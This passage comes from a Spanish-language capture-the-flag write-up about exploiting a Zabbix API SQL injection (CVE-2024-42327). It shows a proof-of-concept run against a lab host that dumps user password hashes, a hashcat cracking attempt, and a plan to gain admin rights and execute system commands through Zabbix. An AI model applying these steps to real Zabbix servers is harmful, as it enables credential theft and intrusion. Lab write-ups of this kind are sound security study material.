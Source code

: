De hecho, podemos utilizar el PoC de antes y vemos que funciona y conseguimos los hashes de los usuarios.
```console
python3 cve-2024-42327.py -u http://10.129.120.77/zabbix/api_jsonrpc.php -n matthew -p 96qzn0h2e1k3
Valid session token: 97e9f348e88a53f2ad264c3bef48b0ab
Admin, Zabbix, Administrator, 1, $2y$10$L8UqvYPqu6d7c8NeChnxWe1.w6ycyBERr8UgeUYh.3AO7ps3zer2a
guest, , , 2, $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06
matthew, POINTED, Smith, 3, $2y$10$e2IsM6YkVvyLX43W5CVhxeA46ChWOUNRzSdIyVzKhRTK00eGq4SwS
```

Podemos intentar crackear el hash del usuario administrador pero vemos que no hay suerte.
```console
.\hashcat.exe -a 0 .\hash.txt .\rockyou.txt
```

Entonces, de alguna forma necesitamos convertirnos en administradores, ya que si se ha agregado un host que sea la máquina víctima (que tiene pinta ya que están los puertos anteriormente mencionados abiertos), podríamos crear un objeto cuyo objetivo sea ejecutar un comando a nivel de sistema y así ganar acceso en la máquina víctima.

Para ello podemos explotar la SQLi manualmente, analizando el PoC vemos que para conseguir el hash del usuario, se aprovecha del SQLi y nos podemos hacer una idea de como podemos explotarlo.
![Write-up Image](images/Screenshot_9.png)

Así que ahora, nos vamos a dirigir a `burpsuite` y vamos a redireccionar esa solicitud POST del script a nuestro proxy.
![Write-up Image](images/Screenshot_10.png)

Ahora si lanzamos el exploit vemos la solicitud en el `burpsuite`, modificando un poco la solicitud quitando lo que no es necesario, y reemplazando el método de autenticación por nuestro API Token, nos queda lo siguiente y vemos que conseguimos los hashes de las cuentas de usuario.